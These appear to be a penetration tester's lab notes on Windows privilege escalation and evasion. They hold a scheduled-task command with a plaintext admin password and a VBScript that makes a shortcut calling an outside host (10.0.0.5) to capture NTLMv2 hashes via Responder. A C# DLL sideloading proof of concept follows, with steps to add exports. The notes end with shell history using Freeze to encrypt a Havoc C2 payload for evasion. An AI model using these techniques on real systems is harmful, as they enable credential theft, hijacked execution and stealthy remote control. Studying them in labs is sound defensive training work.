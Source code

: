 # Additional PrivEsc

# SCHEDULED TASKS

```powershell
schtasks /create /tn VulnTask /tr 'c:\MyPrograms\VulnerableTask\VulnTask.exe' /sc ONSTART /RL HIGHEST /RU "Student_adm" /RP "Threathunt25" /F
```

---

NTLM RELAYING

save the following as "mail_link.vbs", run it - it creates a malicious link that authenticates to responder sending its NTLMv2 hash.

```vbs
Set objShell = WScript.CreateObject("WScript.Shell")
Set lnk = objShell.CreateShortcut("evil_link.lnk")
lnk.TargetPath = "\\10.0.0.5\icon.ico" 	
lnk.Arguments = "" 		
lnk.Description = "" 	
lnk.IconLocation = "\\10.0.0.5\icon.ico" 
lnk.WorkingDirectory = "" 
lnk.Save
```

<https://github.com/AkuCyberSec/firefox-ntlm-hash-capture-via-lnk-download>

# NOT YET WORKING !!! Building your Csharp sideload DLL

- Make C# dll project
- create functions
- install ddlexport nuget
- Mutex

![image](./images/dll_hijack_library.jpg)

DLL without Exports

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Forms;

namespace SharpSideloadDLL
{
    public class Class1
    {
        public static void GetFileVersionInfoW()
        {
            sideload();
        }
        public static void VerQueryValueW()
        {
            sideload();
        }
        public static void GetFileVersionInfoSizeW()
        {
            sideload();
        }
        public static void sideload(
            string message = "Sideloaded!", // Default message
            string title = "Sideload Test", // Default title
            MessageBoxIcon icon = MessageBoxIcon.Information) // Default icon
        {
            MessageBox.Show(message, title, MessageBoxButtons.OK, icon);
        }


    }
}
```

![image](./images/dll_hijack_noexports.jpg)

Now use ildasm from a VS Command Prompt

```powershell
C:\THEV\Labs\CsharpSideload\SharpSideloadDLL\SharpSideloadDLL\bin\x64\Release
ildasm.exe /out:noexports.il SharpSideloadDLL.dll
```

Open the noexports.il and add `.export [0]` to one of the functions, save as `exports.il`

![image](./images/dll_hijack_editil.jpg)

![image](./images/dll_hijack_ildasm.jpg)

Then reassemble with ilasm (not ilDasm)

```powershell
ilasm.exe Exports.il /out:SharpSideloadDLL.dll /DLL
```

You can test with rundll32:

```powershell
rundll32.exe ManualExports.dll,GetFileVersionInfoW
```
![image](./images/dll_hijack_rundll.jpg)


And check in CFF Explorer - you will see the export directory with 1 exported function: `GetFileVersionInfoW`
![image](./images/dll_hijack_cffexports.jpg)

Add nuget Unmanaged Export

edit .csproj and replace the nuget line

```xml
<Import Project="$(MSBuildProjectDirectory)\packages\UnmanagedExports.1.2.7\tools\RGiesecke.DllExport.targets" Condition="Exists('$(MSBuildProjectDirectory)\packages\UnmanagedExports.1.2.7\tools\RGiesecke.DllExport.targets')" />
```

# OPTIVE FREEZE

```bash
sudo git clone https://github.com/Tylous/Freeze.git
   81  ls
   82  cd Freeze
   83  go build Freeze.go
   84  sudo go build Freeze.go
   85  ls
   86  ./Freeze
   87  ./Freeze -I /opt/Havoc/payloads/demon.x64.bin -encrypt -O /opt/Havoc/payloads/demon.frozen.x64.exe
   88  sudo ./Freeze -I /opt/Havoc/payloads/demon.x64.bin -encrypt -O /opt/Havoc/payloads/demon.frozen.x64.exe
   89  go install mvdan.cc/garble@latest
   90  sudo ./Freeze -I /opt/Havoc/payloads/demon.x64.bin -encrypt -O /opt/Havoc/payloads/demon.frozen.x64.exe
   91  sudo ./Freeze -I /opt/Havoc/payloads/demon.x64.bin -encrypt -O demon.frozen.x64.exe
   92  go get golang.org/x/sys/windows
   93  sudo go get golang.org/x/sys/windows
   94  ls
   95  sudo ./Freeze -I /opt/Havoc/payloads/demon.x64.bin -encrypt -O demon.frozen.x64.exe
   96  ls -lah
```